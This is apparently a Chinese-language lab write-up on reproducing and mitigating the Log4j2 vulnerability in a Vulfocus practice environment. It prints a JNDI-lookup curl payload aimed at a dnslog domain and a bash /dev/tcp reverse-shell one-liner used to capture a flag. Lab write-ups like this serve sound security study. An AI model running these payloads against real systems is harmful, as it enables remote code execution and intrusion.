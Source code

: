 # Log4j2漏洞复现及修复

## 进入Vulfocus平台：通过克隆资源中的仓库地址来实现平台的搭建，启动vulfocus并找到log4j2漏洞，启动该漏洞
![](./启动vulfocus.png)
## 得到此漏洞的入口靶标，访问此地址正式进入当前环境测试URL
![](./log4j漏洞环境启动.png)
## 通过docker ps指令得到容器名称和ID,进入到此容器的环境,同时将环境路径下的demo.jar拷贝到宿主机
![](./容器名称.png)
![](./进入容器环境.png)
![](./克隆.jar包到宿主机.png)
## 通过反编译工具得到漏洞源代码，从而分析漏洞代码部分
![](./反编译源码.png)
## 分析源码得到漏洞部分代码为“logger.error("{}",payload);logger.info("{}",payload);”
## 验证漏洞可利用性：使用Poc手动测试漏洞，其中利用dnslog.cn生成随机域名
![](./获取dns.png)
## 使用curl指令触发一次域名解析请求
![](./触发域名解析请求.png)
![](./请求记录.png)

### 此处我通过运行curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'会出现报错，通过询问大模型得知漏洞入口靶标的端口不支持POST方法，于是更改了指令运行
![](./报错分析.png)

## 漏洞利用效果评估：通过在靶机中的单独测试有效负载来连接攻击机反弹窗口，验证反弹shell的成功利用
![](./反弹shell.png)
## 通过对靶机的监听可以在/tmp目录下得到靶标文件，里面记录了漏洞flag
![](./漏洞flag.png)

### 其中遇到了运行bash -i >& /dev/tcp/192.168.164.4/7777 0>&1进行反弹窗口连接报错问题，后来发现是shell解释器的环境不支持该语法，出现了重镜像语法错误
![](./负载测试报错分析.png)
![](./靶机测试有效负载报错.png)
### 于是替换显式使用 bash 执行命令即可成功。

## 漏洞缓解并验证：改变漏洞环境变量，重新解析dns请求发现没有更新记录
![](./修改环境变量.png)
![](./验证变量修改.png)
![](./无解析请求.png)
